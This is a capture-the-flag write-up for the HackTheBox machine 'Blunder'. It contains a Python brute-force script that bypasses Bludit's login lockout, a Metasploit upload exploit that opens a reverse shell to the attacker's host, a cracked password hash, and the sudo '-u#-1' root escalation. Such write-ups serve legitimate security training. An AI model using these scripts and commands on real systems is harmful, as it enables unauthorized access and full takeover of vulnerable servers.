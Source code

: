 ```yaml
---
title: "HTB: Blunder"
categories:
  - HackTheBox
tags:
  - HackTheBox
---
```


![Blunder](https://i.ibb.co/vzVkqtF/Blunder.png)

# Blunder

## Website Enumeration

A quick fuzz of the websites shows that the following page exists:

http://10.10.10.191/todo.txt
```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

We'll keep the username "fergus" for later use. Additionally, an admin panel exists at http://10.10.10.191/admin. Since we don't have a password yet, we'll continue enumerating the site.

We can visit the Bludit Github repo for more info on the backend of the CMS. Several interesting folders are present, and looking through them presents us with the version of Bludit that this machine is running:

http://10.10.10.191/bl-plugins/opengraph/metadata.json
```
author	"Bludit"
email	""
website	"https://plugins.bludit.com"
version	"3.9.2"
releaseDate	"2019-06-21"
license	"MIT"
compatible	"3.9.2"
notes	""
```

To exploit the admin page, we can use cewl to get a wordlist, and modify the script found at the following url:

https://rastating.github.io/bludit-brute-force-mitigation-bypass/

cewl usage:
```
cewl -w wordlist http://blunder.htb
```

Modified Script:
```
#!/usr/bin/env python3
import re
import requests

host = 'http://blunder.htb'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = open('wordlist')

# Generate 50 incorrect passwords

# Add the correct password to the end of the list

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password.strip(),
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password.strip(),
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
```

We get the following credentials:

**fergus:RolandDeschain**

## Admin Panel Exploitation

Metasploit has a module dedicated to Bludit. We'll use linux/http/bludit_upload_images_exec to exploit the admin console and give ourselves a reverse shell:

```
use linux/http/bludit_upload_images_exec
set RHOSTS 10.10.10.191
set BLUDITUSER fergus
set BLUDITPASS RolandDeschain
run

[*] Started reverse TCP handler on 10.10.14.8:4444 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading rQWQpOSGnt.png...
[*] Uploading .htaccess...
[*] Executing rQWQpOSGnt.png...
[*] Sending stage (38288 bytes) to 10.10.10.191
[*] Meterpreter session 1 opened (10.10.xx.xx:4444 -> 10.10.10.191:55480) at 2020-06-01 11:03:14 -0500
[+] Deleted .htaccess
...
meterpreter > shell
Process 3329 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now, we can import tty:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## Internal Enumeration

By doing some manual enumeration of the web-server folders, we can find the following hash in /var/www/bludit-3.10.0a/bl-content/databases/users.php:

```
...
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
...
```

Using hashes.org, we're able to easily decrypt this hash and gain the following credentials:

**Hugo:Password120**

## Enumeration as Hugo

First, we'll see if we can run anything as sudo:

```
sudo -l
Password: Password120

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

This means that we can sudo -u _user_ /bin/bash to switch to any user on the box, aside from root. Using the exploit for sudo 1.8.27, we can sudo to root, even though !root is set:

https://www.exploit-db.com/exploits/47502

```
sudo -u#-1 /bin/bash

root@blunder:/root# whoami
root
```



